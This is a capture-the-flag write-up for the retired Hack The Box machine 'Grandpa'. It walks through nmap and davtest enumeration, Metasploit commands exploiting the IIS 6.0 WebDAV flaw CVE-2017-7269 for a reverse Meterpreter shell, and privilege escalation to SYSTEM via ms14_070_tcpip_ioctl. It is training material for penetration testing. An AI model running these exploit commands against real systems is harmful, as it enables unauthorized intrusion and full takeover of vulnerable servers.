 # Grandpa

This is the write-up for the box Grandpa that got retired at the 21st October 2017.
My IP address was 10.10.14.18 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.14    grandpa.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/grandpa.nmap 10.10.10.14
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Sun, 17 Jan 2021 12:25:53 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The web page displays an _"Under Construction"_ error and nothing interesting in the HTML source code.

As the **WebDAV** scan of Nmap shows, it seems to be possible to use different HTTP methods.
Lets scan what we can do with the methods:
```markdown
davtest -url http://10.10.10.14
```
```markdown
Sending test files
PUT     cfm     FAIL
PUT     txt     FAIL
PUT     html    FAIL
PUT     asp     FAIL
PUT     pl      FAIL
PUT     jhtml   FAIL
PUT     cgi     FAIL
PUT     php     FAIL
PUT     aspx    FAIL
PUT     shtml   FAIL
PUT     jsp     FAIL
```

None of the HTTP methods are allowed, but there is a [vulnerability in WebDAV (CVE-2017-7269)](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl/) with a Metasploit module.

Using this **Metasploit** module to exploit the vulnerability:
```markdown
use exploit/windows/iis/iis_webdav_scstoragepathfromurl

set RHOSTS 10.10.10.14
set LHOST tun0

run
```

After running the exploit, it starts a Meterpreter shell as _NT AUTHORITY\Network Service_.

## Privilege Escalation

The `getuid` command says that access is denied, so `migrate` to a process that the user _NT AUTHORITY\Network Service_ has access to:
```markdown
1804  wmiprvse.exe      x86   0    NT AUTHORITY\NETWORK SERVICE   C:\WINDOWS\system32\wbem\wmiprvse.exe
2880  cmd.exe           x86   0    NT AUTHORITY\NETWORK SERVICE   C:\WINDOWS\system32\cmd.exe
2920  w3wp.exe          x86   0    NT AUTHORITY\NETWORK SERVICE   c:\windows\system32\inetsrv\w3wp.exe
3804  davcdata.exe      x86   0    NT AUTHORITY\NETWORK SERVICE   C:\WINDOWS\system32\inetsrv\davcdata.exe
```
```markdown
migrate 3804
```

Lets use the exploit suggester in Metasploit to get an exploit for privilege escalation:
```markdown
use post/multi/recon/local_exploit_suggester
set session 1
run
```

It suggests several exploits from which I will use _exploit/windows/local/ms14_070_tcpip_ioctl_:
```markdown
use exploit/windows/local/ms14_070_tcpip_ioctl

set session 1
set LHOST tun0
set LPORT 4445

exploit
```

After running this exploit, a new Meterpreter session as _NT AUTHORITY\SYSTEM_ starts and the box is done!
